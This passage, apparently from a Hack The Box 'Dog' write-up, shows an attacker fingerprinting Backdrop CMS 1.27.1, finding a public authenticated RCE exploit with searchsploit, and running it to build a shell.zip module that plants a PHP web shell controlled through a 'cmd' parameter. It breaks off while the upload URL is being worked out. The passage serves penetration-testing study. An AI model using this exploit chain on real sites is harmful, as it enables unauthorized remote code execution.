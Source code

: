 We want to know which version this concrete Backgrop CMS is using to see if there's some known vulnerability, so we search by `VERSION'` on extracted files we found backdrop CMS version `1.27.1.`

```bash
┌──(git-dumper)─(kali㉿kali)-[~/Documents/HTB/dog/dog]
└─$ grep -ri "VERSION'" . 
...
./core/includes/bootstrap.inc:define('BACKDROP_VERSION', '1.27.1');
...
```

Searching for exploits for `Backdrop` we found one which can be useful for us as it is the same version and it is an authenticated RCE, which we can probably use as we now have a valid admin credentials.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ searchsploit "Backdrop"
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Backdrop CMS 1.20.0 - 'Multiple' Cross-Site Request Forgery (CSRF)  | php/webapps/50323.html
Backdrop CMS 1.23.0 - Stored XSS                                    | php/webapps/51905.txt
Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)  | php/webapps/52021.py
Backdrop Cms v1.25.1 - Stored Cross-Site Scripting (XSS)            | php/webapps/51597.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/52021.py exploit.py
```

Executing the exploit we see that a `shell.zip` file is generated. After examining the exploit code it seems that it creates a `shell.php` file and uploads it as a module.
It can be leveraged to run commands by using `cmd` parameter.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ python3 exploit.py http://dog.htb/
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb//admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb//modules/shell/shell.php
```

The url reported by the exploit is not working fine. So place after some search we found that URL to upload modules is the following one `http://dog.htb/?q=admin/modules/install`
